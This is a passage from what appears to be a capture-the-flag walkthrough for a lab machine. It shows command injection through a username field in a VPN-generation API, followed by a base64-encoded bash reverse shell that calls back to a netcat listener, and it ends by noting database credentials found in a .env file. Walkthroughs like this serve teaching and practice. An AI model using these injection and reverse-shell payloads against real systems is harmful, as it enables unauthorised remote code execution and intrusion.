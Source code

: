 After sending the above command we see that a VPN configuration file was generated for user test and was printed out to us. If this VPN is being generated via the `exec` or `system` PHP function and there is insufficient filtering in place - which is possible as this is an administrative only function - it might be possible to inject malicious code in the username field and gain command execution on the remote system. Let's test this assumption by injecting the command `;id;` after the username.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;id;"}'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The command is successful and we gain command execution. Let's start a Netcat listener to catch a shell.

```bash
nc -lvp 1234
```

We can then get a shell with the following payload.

```bash
bash -i >& /dev/tcp/10.10.14.4/1234 0>&1
```

We encode the payload in Base64 and add it to the following command.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie
"PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data
'{"username":"test;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzEyMzQgMD4mMQo= |
base64 -d | bash;"}'
```

![img](./assets/nc%20-lvp%201234.png)

## Lateral Movement

Enumeration of the web directory reveals a file called `.env` which contains database credentials for a user called `admin` .
